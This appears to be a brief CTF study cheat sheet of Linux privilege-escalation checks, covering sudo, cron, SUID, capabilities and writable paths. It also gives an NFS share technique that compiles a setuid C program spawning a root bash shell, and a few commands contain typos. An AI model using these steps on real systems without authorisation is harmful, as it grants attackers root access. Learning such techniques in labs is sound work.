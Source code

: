 Things to check

#check for sudo escalation
sudo -l

# check for running cronjobs
cat /etc/crontab

# find SUID's
find / -type f -perm -04000 -ls 2>/dev/null
or
find / -type f -perm -02000 -ls 2>/dev/null

#capabilities exploit
getcap -r / 2>/dev/null

#Path
Echo #PATH
find / -writable 2>/dev/null

#NFS
showmount -e <boxtoattack>
mkdir /tmp/something
mount -o rw <boxtoattack:/share /tmp/something

jump into folder that you just mounted
create a script using nano or subl

int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}

compiel with gcc file.c -o file -w

setuid
chmod +s file

OR just google tryhackme walkthrough <room name>
